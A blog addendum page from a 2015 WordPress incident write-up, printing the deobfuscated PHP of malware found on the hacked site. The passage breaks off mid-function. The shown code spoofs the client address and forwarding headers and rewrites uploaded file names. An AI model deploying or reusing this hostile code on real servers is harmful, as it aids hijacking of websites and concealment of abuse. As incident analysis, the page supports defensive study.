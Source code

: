+++
date = "2015-06-27T18:13:15+02:00"
title = "Deobfuscated code from the WordPress hack"
+++

This page is part of the blogpost [About that time I dealt with a bunch of hackers on a WordPress](/2015/about-that-time-i-dealt-with-a-bunch-of-hackers-on-a-wordpress/).

The following is the deobfuscated version of [this](/addendum/2015/obfuscated-code-from-the-wordpress-hack/).

	<?php
	if (isset($_SERVER)) {
	    $_SERVER['PHP_SELF']    = "/";
	    $_SERVER['REMOTE_ADDR'] = "127.0.0.1";
	    if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
	        $_SERVER['HTTP_X_FORWARDED_FOR'] = "127.0.0.1";
	    }
	}
	if (isset($_FILES)) {
	    foreach ($_FILES as $key => $file) {
	        if (!strpos($file['name'], ".jpg")) {
	            $filename             = alter_macros($file['name']);
	            $filename             = num_macros($filename);
	            $filename             = xnum_macros($filename);
	            $_FILES[$key]["name"] = $filename;
	        }
	    }
	}
	function custom_strip_tags($text)
	{
	    $text = strip_tags($text, '<a>');
	    $text = str_replace("<a href=\"", "[ ", $text);
	    $text = str_replace("</a>", "", $text);
	    $text = str_replace("\">", " ] ", $text);
	    
	    return $text;
	}
	
	function is_ip($str)
	{
	    return preg_match("/^([1-9]|[1-9][0-9]|1[0-9][0-9]|2[0-4][0-9]|25[0-5])(\.([0-9]|[1-9][0-9]|1[0-9][0-9]|2[0-4][0-9]|25[0-5])){3}$/", $str);
	}
	
	function from_host($content)
	{
	    
	    $host = preg_replace('/^(www|ftp)\./i', '', @$_SERVER['HTTP_HOST']);
	    
	    if (is_ip($host)) {
	        return $content;
	    }
	    
	    $tokens = explode("@", $content);
	    